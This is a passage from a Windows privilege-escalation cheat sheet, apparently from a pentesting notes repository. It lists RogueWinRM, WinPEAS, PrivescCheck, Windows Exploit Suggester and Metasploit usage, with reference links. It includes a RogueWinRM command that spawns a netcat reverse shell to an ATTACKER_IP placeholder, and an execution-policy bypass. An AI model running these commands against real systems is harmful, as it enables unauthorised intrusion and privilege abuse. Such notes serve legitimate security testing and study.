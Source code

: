 ### SeImpersonate / SeAssignPrimaryToken

```powershell
C:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe <ATTACKER_IP> <PORT>"
```

## Scripts

[PrivescCheck](https://github.com/itm4n/PrivescCheck)
[WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

```powershell
winpeas.exe > outputfile.txt

Set-ExecutionPolicy Bypass -Scope process -Force 
. .\PrivescCheck.ps1 
Invoke-PrivescCheck
```

[Windows Exploit Suggester](https://github.com/bitsadmin/wesng)
```bash
# Attacker machine
# systeminfo.txt is the command systeminfo ran on victim machine
wes.py systeminfo.txt 
```

## Metasploit
If you already have a Meterpreter shell on the target system, you can use the `multi/recon/local_exploit_suggester` module to list vulnerabilities that may affect the target system and allow you to elevate your privileges on the target system.


## Links
- [PayloadsAllTheThings - Windows Privilege Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
- [Priv2Admin - Abusing Windows Privileges](https://github.com/gtworek/Priv2Admin)
- [RogueWinRM Exploit](https://github.com/antonioCoco/RogueWinRM)
- [Potatoes](https://jlajara.gitlab.io/others/2020/11/22/Potatoes_Windows_Privesc.html)
- [Decoder's Blog](https://decoder.cloud/)
- [Token Kidnapping](https://dl.packetstormsecurity.net/papers/presentations/TokenKidnapping.pdf)
- [Hacktricks - Windows Local Privilege Escalation](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation)

